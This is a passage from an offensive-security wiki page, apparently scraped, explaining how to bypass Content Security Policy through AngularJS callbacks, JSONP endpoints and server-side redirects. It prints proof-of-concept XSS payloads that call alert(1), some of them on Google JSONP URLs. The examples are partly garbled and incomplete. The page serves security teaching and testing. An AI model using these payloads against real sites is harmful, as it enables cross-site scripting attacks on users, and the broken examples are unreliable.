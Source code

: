 A CSP policy that whitelists domains for script loading in an Angular JS application can be bypassed through the invocation of callback functions and certain vulnerable classes. Further information on this technique can be found in a detailed guide available on this [[https://github.com/cure53/XSSChallengeWiki/wiki/H5SC-Minichallenge-3:-%22Sh*t,-it's-CSP!%22|git repository]].

Working payloads:

```html

ng-app"ng-csp ng-click=$event.view.alert(1337)>


<script src="https://www.googleapis.com/customsearch/v1?callback=alert(1)">
```
```
Other JSONP arbitrary execution endpoints can be found in [[https://github.com/zigoo0/JSONBee/blob/master/jsonp.txt) (some of them were deleted or fixed|**here**]]

### Bypass via Redirection

What happens when CSP encounters server-side redirection? If the redirection leads to a different origin that is not allowed, it will still fail.

However, according to the description in [[https://www.w3.org/TR/CSP2/#source-list-paths-and-redirects|CSP spec 4.2.2.3. Paths and Redirects]], if the redirection leads to a different path, it can bypass the original restrictions.

Here's an example:

```html
<!DOCTYPE html>
<html>
  <head>
    <!--
meta-content-security-policy: script-src http://localhost:5555 https://www.google.com/a/b/c/d
-->

  </head>
  <body>
    <div id="userContent">
      
      
      
    </div>
  </body>
</html>
```
```
If CSP is set to `https://www.google.com/a/b/c/d`, since the path is considered, both `/test` and `/a/test` scripts will be blocked by CSP.

However, the final `http://localhost:5555/301` will be **redirected on the server-side to `https://www.google.com/complete/search?client=chrome&q=123&jsonp=alert(1)//`**. Since it is a redirection, the **path is not considered**, and the **script can be loaded**, thus bypassing the path restriction.

With this redirection, even if the path is specified completely, it will still be bypassed.

Therefore, the best solution is to ensure that the website does not have any open redirect vulnerabilities and that there are no domains that can be exploited in the CSP rules.

### Bypass CSP with dangling markup

Read [[../dangling-markup-html-scriptless-injection/index.html|how here]].

### 'unsafe-inline'; img-src \*; via XSS
```